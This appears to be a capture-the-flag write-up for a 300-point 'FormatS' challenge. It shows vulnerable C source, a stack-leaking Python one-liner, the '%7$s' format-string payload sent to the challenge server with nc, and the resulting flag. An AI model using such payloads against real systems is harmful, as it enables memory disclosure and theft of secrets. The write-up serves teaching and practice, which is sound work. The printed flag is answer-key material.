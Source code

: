 # FormatS

![Binary Exploitation](https://img.shields.io/badge/Binary%20Exploitation--00aaff?style=for-the-badge) ![Points - 300](https://img.shields.io/badge/Points-300-9cf?style=for-the-badge)

```txt
The flag's located somewhere in the binary. Can you find it?

nc cyberyoddha.baycyber.net 10005

- Haskell#1426
```

---

Immediately after taking a look at the source code, we were able to tell that this binary could fall victim of a _format string exploit_, since the raw contents of the input buffer are being used as the **first** parameter of printf.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main ()
{
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

	return 0;
}
```

... first of all... use a short python one liner to see what values are stored on the stack:

```bash
python -c "print('%x.'*16)" | ./formats
```

```txt
ffffffff.1010101.8049189.1.ff8fb6b4.ff8fb6bc.804a008.ff8fb610.0.0.f7d7408e.f7f42e1c.f7f42e1c.0.f7d7408e.1.
```

... and... using something like `radare`, we were able to figure out, where the flag string would be stored in memory:

![flag](./flag.png)

... luckily for us that address is still on the stack, once `printf` is called (simply take another look at the output of the python one liner above - you can see that it's stored at offset `7`).

We can now use this information to simply make the binary tell us the value of the `flag` variable:

```bash
echo '%7$s' | nc cyberyoddha.baycyber.net 10005
```

... this will eventually give you the flag: `cyctf{3xpl0!t_th3_f0rm@t_str!ng}`
